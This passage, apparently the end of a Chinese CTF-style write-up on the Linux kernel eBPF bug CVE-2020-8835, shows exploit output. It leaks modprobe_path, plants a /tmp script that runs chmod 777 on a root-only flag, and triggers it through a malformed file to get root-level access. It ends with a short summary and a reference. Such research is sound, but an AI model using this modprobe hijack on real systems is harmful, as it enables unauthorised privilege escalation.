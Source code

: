 ```
[lx]  kaslr                : 0
[lx]  modprobe             : 0xffffffff82446d80
/ $ ls /tmp
chmod  fake
/ $ cat /tmp/chmod
#!/bin/sh
/bin/chmod 777 /flag
/ $ /tmp/fake 
/tmp/fake: line 1: : not found
/ $ ls -al flag
-rwxrwxrwx    1 root     0               11 Apr 26  2019 flag
/ $ cat flag
*CTF{test}
```



## 小结

总的来说，这个洞就是代码写错了:D , 本来是想着既然有 `jmp32` 看能不能优化一下什么的，然后写了个 bug. 这个洞也没有对应的补丁，linux做了版本回退直接删除了这个commit上新添加的代码。



## reference

[https://www.zerodayinitiative.com/blog/2020/4/8/cve-2020-8835-linux-kernel-privilege-escalation-via-improper-ebpf-program-verification](https://www.zerodayinitiative.com/blog/2020/4/8/cve-2020-8835-linux-kernel-privilege-escalation-via-improper-ebpf-program-verification)
